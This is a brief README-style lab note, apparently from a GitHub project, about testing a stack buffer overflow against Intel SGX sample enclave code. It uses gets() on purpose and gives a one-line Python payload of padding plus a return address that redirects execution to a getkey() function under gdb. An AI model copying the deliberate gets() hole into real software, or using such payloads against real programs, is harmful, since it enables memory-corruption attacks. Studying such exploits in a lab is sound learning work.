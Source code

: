 # Buffer Overflow (Based on the intel sample codes SampleEnclave)

```
void getkey(){
    printf("The key is: Blah Blah Blah\n");
}
```
This code is placed outside of Enclave 
We use gets() ... Yes I don't care for realistic situations not yet
So basically, sgxsdk is as fancy as it is just code.

Next we test how the same method works for when that function is placed inside the enclave.
How can I do that? Well I have to find out

```
python -c "print 'aaaaaaaaaaaaaaaaaabbbbbb'+b'\xa0\x1d\x40\x00\x00\x00'"  > tmp
```
and we pass tmp through gdb. Crude method but it works
